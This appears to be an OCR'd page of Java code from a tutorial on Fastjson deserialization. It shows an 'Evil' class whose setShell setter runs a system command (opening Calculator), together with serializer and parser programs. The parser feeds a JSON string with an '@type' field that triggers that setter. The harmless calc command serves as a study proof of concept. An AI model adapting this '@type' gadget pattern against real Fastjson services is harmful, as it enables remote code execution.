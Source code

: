 ```java
    }
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
    public void setShell(String shell) throws IOException {
        System.out.println("setShell");
        Runtime.getRuntime().exec("open -a /System/Applications/Calculator.app");
    }
}
```
```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 10:49 上午
 */
public class SerEvil {
    public static void main(String[] args) throws IOException {
        Evil evil = new Evil();
        evil.setName("h3rmesk1");
//        evil.setShell("calc");
        String jsonString = JSON.toJSONString(evil, SerializerFeature.WriteClassName);
        System.out.println(jsonString);
    }
}
```
```java
import com.alibaba.fastjson.JSON;

import java.io.IOException;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/12/1 10:52 上午
 */
public class UnSerEvil {
    public static void main(String[] args) throws IOException {
        String jsonString = "{\"@type\":\"Evil\",\"name\":\"h3rmesk1\",\"shell\":\"calc\"}";
        System.out.println(JSON.parseObject(jsonString));
    }
}
```
